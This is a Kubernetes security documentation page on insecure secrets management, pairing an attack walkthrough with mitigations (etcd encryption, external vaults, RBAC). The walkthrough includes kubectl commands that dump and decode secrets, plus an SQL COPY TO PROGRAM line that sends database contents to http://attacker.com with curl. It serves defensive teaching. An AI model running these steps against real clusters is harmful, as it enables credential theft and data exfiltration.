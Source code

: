 ```yaml
---
sidebar_position: 5
title: Insecure Secrets Management
description: Understanding the risks of insecure secrets management in Kubernetes and best practices to securely handle sensitive data.
---
```


# Insecure Secrets Management

**Insecure secrets management** in **Kubernetes** can lead to the **exposure of sensitive data**, such as **API keys**, **database credentials**, and **certificates**. Storing **secrets in plaintext** or using **insecure backends** can make them easily accessible to **attackers**.

---

## 🚩 Exploitation Steps: Accessing Insecurely Stored Secrets

An attacker identifies **Kubernetes Secrets** stored in **plaintext**:

```bash
kubectl get secrets -o yaml
```

### 1. Decode a Kubernetes Secret

The **attacker** extracts and **decodes** a **Base64-encoded secret**:

```bash
kubectl get secret db-secret -o jsonpath='{.data.password}' | base64 --decode
```

### 2. Access Sensitive Services Using Exposed Credentials

The **attacker** uses the **decoded credentials** to **access a database**:

```bash
psql -h <database-ip> -U admin -W
```

### 3. Exfiltrate Data from the Database

The **attacker** **exports sensitive data** from the **database** to an **external server**:

```sql
COPY (SELECT * FROM sensitive_data) TO PROGRAM 'curl -X POST -d @- http://attacker.com/upload';
```

### ✅ Result

The attacker can **access and exfiltrate sensitive data**, causing **data breaches** and **regulatory compliance violations**.

---

## 🛡️ Mitigation Techniques and Fixes

### 1. Encrypt Secrets at Rest

- **Issue:** **Secrets** stored in **etcd** are **not encrypted by default**.
- **Fix:** Enable **encryption at rest** in the **Kubernetes configuration**.

#### ✅ Example Encryption Configuration for etcd

```yaml
apiVersion: apiserver.config.k8s.io/v1
kind: EncryptionConfiguration
resources:
- resources:
  - secrets
  providers:
  - aescbc:
      keys:
      - name: key1
        secret: c2VjcmV0LWtleS1mb3ItZW5jcnlwdGlvbg==
  - identity: {}
```

### 2. Use External Secret Management Solutions

- **Issue:** **Kubernetes Secrets** alone do not provide **advanced security features**.
- **Fix:** Integrate with **external secret management tools** like **HashiCorp Vault**, **AWS Secrets Manager**, or **Azure Key Vault**.

#### ✅ Example of Using External Secrets with Kubernetes

```yaml
apiVersion: secrets-store.csi.x-k8s.io/v1
kind: SecretProviderClass
metadata:
  name: vault-secrets
spec:
  provider: vault
  parameters:
    vaultAddress: "https://vault.example.com"
    roleName: "k8s-role"
    objects: |
      array:
        - objectName: "db-password"
          secretPath: "secret/data/db"
          secretKey: "password"
```

### 3. Limit Access to Secrets with RBAC

- **Issue:** **Lack of access controls** allows **unauthorized access** to **secrets**.
- **Fix:** Implement **Role-Based Access Control (RBAC)** to **restrict secret access**.

#### ✅ Example of RBAC Policy for Secret Access

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: default
  name: secret-reader
rules:
- apiGroups: [""]
  resources: ["secrets"]
  verbs: ["get"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: read-secrets
  namespace: default
subjects:
- kind: ServiceAccount
  name: secret-reader-sa
roleRef:
  kind: Role
  name: secret-reader
  apiGroup: rbac.authorization.k8s.io
```

---

## ✅ Key Takeaway

To **secure Kubernetes secrets**, always:

- **Encrypt secrets at rest** using **etcd encryption**.
- **Integrate external secret management solutions** for **robust security**.
- Apply **RBAC policies** to **limit access** to **sensitive data**.

